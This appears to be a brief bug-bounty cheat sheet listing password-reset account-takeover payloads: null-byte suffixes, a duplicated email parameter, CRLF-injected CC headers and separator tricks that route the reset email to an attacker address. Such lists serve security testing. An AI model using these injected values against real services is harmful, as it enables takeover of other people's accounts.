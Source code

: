 # Account Takeover


### A list of common techniques to take over a user account using password reset

`victim@example.com%00`

Double Parameter

`email=victim@example.com&email=hacker@example.com`

Carbon Copy

`email=victim@example.com%0a%0dcchacker@example.com`

Seperartors

`email=victim@example.com,hacker@example.com`

`email=victim@example.com%20hacker@example.com`

#bugbounty #bugbountytips #awesome-bug-bounty
